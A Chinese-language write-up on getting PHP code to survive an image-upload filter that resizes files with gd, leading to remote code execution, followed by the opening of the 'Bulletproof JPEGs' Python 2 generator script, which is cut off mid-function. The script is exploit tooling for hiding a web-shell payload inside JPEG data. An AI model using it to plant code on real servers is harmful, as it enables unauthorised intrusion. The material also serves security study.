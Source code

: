 国外的上传屡见不鲜，就是你上传了脚本，根本用不起，花式遇到情况，也就是所谓的**如何执行**

作者遇到的情况就是文件上传后就会被剪裁成50x50的格式，而作者原本写入的php代码也会被移除掉


## 黑科技
作者说，要去学习一波文件调整的姿势，然后就学来一个姿势

作者发现，上传后的图片会包含这些信息，这是原图片所不具有的
```
??JFIF      ?;CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 75
```
所以作者找到了这么一篇报告[《Bulletproof JPEGs》](http://www.virtualabs.fr/Nasty-bulletproof-Jpegs-l)

坑爹是法语的，完全看不懂，所以写到这儿，黑科技的学习就完全中断了

只知道作者利用exp生成的php图片成功的上传上去了，并且能成功RCE，这也就是说，图片即使经过了处理也还是保留了PHP的代码

Python的EXP:
```
#!/usr/bin/python2

"""

    Bulletproof Jpegs Generator
    Copyright (C) 2012  Damien "virtualabs" Cauquil

    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License along
    with this program; if not, write to the Free Software Foundation, Inc.,
    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

"""

import struct,sys,os
import gd
from StringIO import StringIO
from random import randint,shuffle
from time import time

# image width/height (square)
N = 32


def insertPayload(_in, _out, payload,off):
	"""
	Payload insertion (quick JPEG parsing and patching)
	"""
	img = _in
	# look for 'FF DA' (SOS)
	sos = img.index("\xFF\xDA")
	sos_size = struct.unpack('>H',img[sos+2:sos+4])[0]
	sod = sos_size+2
	# look for 'FF D9' (EOI)
	eoi = img[sod:].index("\xFF\xD9")
	# enough size ?
	if (eoi - sod - off)>=len(payload):
```